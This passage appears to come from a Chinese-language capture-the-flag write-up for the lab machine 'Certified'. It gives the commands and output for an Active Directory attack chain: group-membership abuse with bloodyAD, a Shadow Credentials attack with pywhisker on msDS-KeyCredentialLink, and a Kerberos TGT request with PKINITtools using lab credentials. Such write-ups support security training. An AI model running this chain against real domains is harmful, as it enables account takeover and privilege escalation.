 ```
┌──(root㉿kali)-[/home/kali/Certified]
└─# bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"

[+] judith.mader added to Management
```

- [域持久性：Shadow Credentials - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/331955.html)

- [KillingTree/pywhisker: Python version of the C# tool for "Shadow Credentials" attacks (github.com)](https://github.com/KillingTree/pywhisker)

这个工具如果出现args的报错，要到`main()`函数中添加`globals args`，在args的parse调用之前

使用 `pywhisker.py` 工具进行 Kerberos 认证绕过操作，并且通过修改目标对象的 `msDS-KeyCredentialLink` 属性来生成并存储与目标相关的证书和密钥

```
┌──(root㉿kali)-[/home/kali/Certified/pywhisker/pywhisker]
└─# python pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target management_svc --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 7ba66598-d473-200b-e335-73693201fe6a
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: oigNgAOY.pfx
[*] Must be used with password: F7ddKVbzqkaPtLgqVxFX
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
                                                                           
```

然后请求获取management\_svc的TGT票据，如果报错需要使用ntpdate同步时区

使用 `PKINITtools` 中的 `gettgtpkinit.py` 脚本来请求一个 Kerberos TGT（Ticket Granting Ticket），并且使用了之前生成的证书和密钥

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# python gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/oigNgAOY.pfx -pfx-pass F7ddKVbzqkaPtLgqVxFX certified.htb/management_svc hhh.ccache
2024-12-08 18:59:06,443 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-12-08 18:59:06,456 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-12-08 18:59:28,228 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-12-08 18:59:28,228 minikerberos INFO     07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6
INFO:minikerberos:07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6
2024-12-08 18:59:28,230 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
